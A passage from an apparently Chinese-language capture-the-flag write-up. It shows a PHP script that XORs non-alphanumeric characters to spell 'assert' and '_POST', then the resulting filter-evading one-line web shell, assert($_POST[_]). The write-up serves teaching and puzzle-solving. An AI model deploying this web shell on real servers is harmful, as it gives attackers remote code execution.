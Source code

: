 ```php
$shell = "assert";
$result1 = "";
$result2 = "";
for($num=0;$num<=strlen($shell);$num++)
{
    for($x=33;$x<=126;$x++)
    {
        if(judge(chr($x)))
        {
            for($y=33;$y<=126;$y++)
            {
                if(judge(chr($y)))
                {
                    $f = chr($x)^chr($y);
                    if($f == $shell[$num])
                    {
                        $result1 .= chr($x);
                        $result2 .= chr($y);
                        break 2;
                    }
                }
            }
        }
    }
}
echo $result1;
echo "<br>";
echo $result2;

function judge($c)
{
    if(!preg_match('/[a-z0-9]/is',$c))
    {
        return true;
    }
    return false;
}
```
这个POC可以将"assert"变成两个字符串异或的结果。为了便于表示，生成字符串的范围我均控制为可见字符(即ASCII为33\~126)，如果要使POC适用范围更广，可以改为0\~126，只不过对于不可见字符，需要用url编码表示。
使用这个POC，我们可以得到:
```php
<?php
$_ = "!((%)("^"@[[@[\\";   //构造出assert
$__ = "!+/(("^"~{`{|";   //构造出_POST
$___ = $$__;   //$___ = $_POST
$_($___[_]);   //assert($_POST[_]);
```
代入此题的环境，可以看到，成功执行命令